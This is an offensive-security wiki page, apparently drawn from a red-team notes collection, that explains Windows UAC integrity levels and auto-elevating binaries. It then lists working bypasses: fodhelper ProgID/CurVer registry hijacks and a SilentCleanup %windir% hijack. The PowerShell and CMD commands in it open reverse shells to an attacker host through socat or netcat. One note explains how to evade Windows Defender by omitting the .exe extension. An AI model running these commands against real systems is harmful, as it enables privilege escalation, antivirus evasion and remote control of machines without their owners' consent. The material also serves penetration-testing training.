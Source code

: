 ```yaml
---
description: 'MITRE ATT&CK™ Impair Defenses: Disable or Modify Tools - Technique T1562.001'
---
```


# UAC Bypass

## Theory

The User Account Control [UAC](https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works). Its a Windows security feature that forces any new process to run in the security context of a non-privileged account by default..

### Integrity Levels

UAC is a **Mandatory Integrity Control** (MIC), which is a mechanism that allows differentiating users, processes and resources by assigning an Integrity Level (IL) to each of them. In general terms, users or processes with a higher IL access token will be able to access resources with lower or equal ILs. MIC takes precedence over regular Windows DACLs\
The following 4 ILs are used by Windows, ordered from lowest to highest:

| Integrity Level | Use                                                |
| --------------- | -------------------------------------------------- |
| Low             | Very limited permissions                           |
| Medium          | users and Administrators' filtered tokens.         |
| High            | Administrators' elevated tokens if UAC is enabled. |
| System          | Reserved for system use.                           |

### AutoElevate

some executables can auto-elevate, achieving high IL without any user intervention. This applies to most of the Control Panel's functionality and some executables provided with Windows. For an application, some requirements need to be met to auto-elevate:\
\- The executable must be signed by the Windows Publisher\
\- The executable must be contained in a trusted directory, like %SystemRoot%/System32/ or %ProgramFiles%/\
\- Executable files (.exe) must declare the autoElevate element inside their manifests. To check a file's manifest, we can use sigcheck.

Indeed we can leverage this executables to bypass UAC. Let's dive in:

{% hint style="danger" %}
if UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate.
{% endhint %}

## Practice

Microsoft doesn't consider UAC a security boundary but rather a simple convenience to the administrator to avoid unnecessarily running processes with administrative privileges. In that sense any bypass technique is not considered a vulnerability to Microsoft, and therefore some of them remain unpatched to this day.

### Using ProgID and AutoElevate binary to bypass UAC

We will create an entry on the registry for a new `progID` of our choice (any name will do) and then point the `CurVer` entry in the `ms-settings progID` to our newly created progID. This way, when `fodhelper` tries opening a file using the `ms-settings progID`, it will notice the `CurVer` entry pointing to our new `progID` and check it to see what command to use.

{% tabs %}
{% tab title="Powershell" %}
The exploit code is proposed by [V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)

```bash
# Using socat
$program = "powershell -windowstyle hidden C:\tools\socat\socat TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"
# Or using netcat
$program = "powershell -windowstyle hidden C:\Windows\Temp\nc64 192.168.49.113 443 -e cmd.exe"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

{% hint style="danger" %}
Detected by Windowds Defender

Note that we removed the `.exe` extension in an attempt to evade Windows Defender (e.g. using `nc64` instead of `nc64.exe`). By omitting the extension, Windows will still execute the binary.
{% endhint %}

We may clean-up as follows

```powershell
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```
{% endtab %}

{% tab title="CMD" %}
V3ded exploit converted in CMD by TryHackMe

```bash
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```
{% endtab %}
{% endtabs %}

### DiskCleanup Scheduled Task to bypass UAC

Originally discovered [discovered in 2017](https://www.tiraniddo.dev/2017/05/exploiting-environment-variables-in.html) by [James Forshaw](https://twitter.com/tiraniddo) from [Google Project Zero](https://googleprojectzero.blogspot.com/), the "DiskCleanup Bypass" take advantage of the `SilentCleanup` scheduled task, which is configured on Windows by default.This tasks can be started from a process with a `medium integrity level`, and then automatically elevates to a `high integrity level` since the `"Run with highest privileges"` option is enabled.&#x20;

**SilentCleanup launches `cleanmgr.exe` using the `%windir%` environment variable**. By modifying `%windir%`, we can control what gets executed.

{% tabs %}
{% tab title="PowerShell" %}
We can abuse it as follows

```bash
Set-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Value "cmd.exe /K C:\Windows\Tasks\nc64.exe <IP> <PORT> & REM " -Force
Start-ScheduledTask -TaskPath "\Microsoft\Windows\DiskCleanup" -TaskName "SilentCleanup"
```

We may clean-up as follows

```powershell
Clear-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Force
```
{% endtab %}

{% tab title="CMD" %}
We can abuse it as follows

```powershell
reg add "HKCU\Environment" /v windir /t REG_SZ /d "cmd.exe /K C:\Windows\Tasks\nc64.exe <IP> <PORT> & REM " /f
schtasks /run /tn "\Microsoft\Windows\DiskCleanup\SilentCleanup"
```

We may clean-up as follows

```powershell
reg delete "HKCU\Environment" /v windir /f
```
{% endtab %}
{% endtabs %}

### Automated Exploitation

{% tabs %}
{% tab title="UACME" %}
While [UACME](https://github.com/hfiref0x/UACME) provides several tools, we will focus mainly on the one called **Akagi**, which runs the actual UAC bypasses\
If you want to test for method 33, you can do the following from a command prompt, and a high integrity cmd.exe will pop up:

```bash
C:\tools>UACME-Akagi64.exe 33
```

| Method Id | Bypass technique                        |
| --------- | --------------------------------------- |
| 33        | fodhelper.exe                           |
| 34        | DiskCleanup scheduled task              |
| 70        | fodhelper.exe using CurVer registry key |
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/bypassinguac" %}

{% embed url="https://github.com/hfiref0x/UACME" %}

{% embed url="https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses" %}
